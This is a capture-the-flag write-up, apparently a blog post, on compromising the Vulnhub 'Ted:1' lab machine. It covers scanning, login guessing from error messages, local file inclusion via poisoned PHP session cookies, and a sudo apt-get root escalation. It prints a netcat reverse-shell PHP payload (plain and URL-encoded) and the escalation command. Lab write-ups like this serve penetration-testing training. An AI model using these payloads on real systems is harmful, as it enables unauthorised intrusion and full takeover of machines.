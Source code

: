```yaml
---
layout: post
title:  "Ted:1 Vulnhub Writeup"
date:   2020-09-24 15:00:00 +0530
categories: VulnHub CTF
---
```

Ted:1 is a machine in which I used Local File Inclusion Vulnerability to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with nmap

```
nmap -sV -sC 192.168.198.136
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 09:58 EDT
Nmap scan report for 192.168.198.136
Host is up (0.00077s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds

```
Port 80 is the only opened port.
## Web Enumeration
Then I enumerated directories and files using gobuster

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.136 -x html,php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php
[+] Timeout:        10s
===============================================================
2020/09/24 09:58:18 Starting gobuster
===============================================================
/index.php (Status: 200)
/home.php (Status: 302)
/logout.php (Status: 302)
/cookie.php (Status: 302)
/authenticate.php (Status: 302)
/server-status (Status: 403)
===============================================================
2020/09/24 09:59:06 Finished
===============================================================
```
An intersting file is cookie.php, although it didn't help me to get a shell but it gave me a hint about using cookie with LFI to gain a shell.
## Brute forcing
I found a login form in index.php, So I tried SQLmap to test for SQL injection but the form isn't vulnerable to it. 
Then, I started testing with inputs and error messages and it was fruitful. The error messages gave me hints about the the correct username and correct password then the correct hashing algorithm. You can see the diffrence below.

### Username guessing 
![Username](/assets/machines/vulnhub/ted/1.png)

### Password guessing 
![Password](/assets/machines/vulnhub/ted/2.png)

### Hashing Algorithm guessing
![Hash](/assets/machines/vulnhub/ted/3.png)

The correct username is admin and the correct password is hash sha256 of word admin


## Local File Inclusion
When I typed /etc/passwd it retrived the content of the file, so it's clearly a LFI vulnerability. 
![Hash](/assets/machines/vulnhub/ted/4.png)



After many attemps like reading /etc/shadow and Log poisoning via apache logs, I found a suspicous cookie. so I tried to change it's value and access /var/lib/php/sessions/sess_ via the browser and it worked!
![Hash](/assets/machines/vulnhub/ted/5.png)

Immediately  I changed the cookie value to 

```
<?php system("nc [ip] 9999 -e /bin/sh")?>
```

but URL encoded as 
```
%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%39%39%39%39%20%5b%69%70%5d%20%2d%65%20%2f%62%69%6e%2f%73%68%22%29%3f%3e
```
and started listening in my machine and refreshed the page. I got a shell!
```
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.198.137] from (UNKNOWN) [192.168.198.136] 57674
whoami
www-data
```

## Privilege Escalation
I ran sudo -l and noticed that I can run apt-get as a root without password (SUDO).

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

```

So imediatly I went to https://gtfobins.github.io/ and got the following command
which abuses the sudo priv given to the binary apt-get 

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
root
```
and voila here is the root privilege!




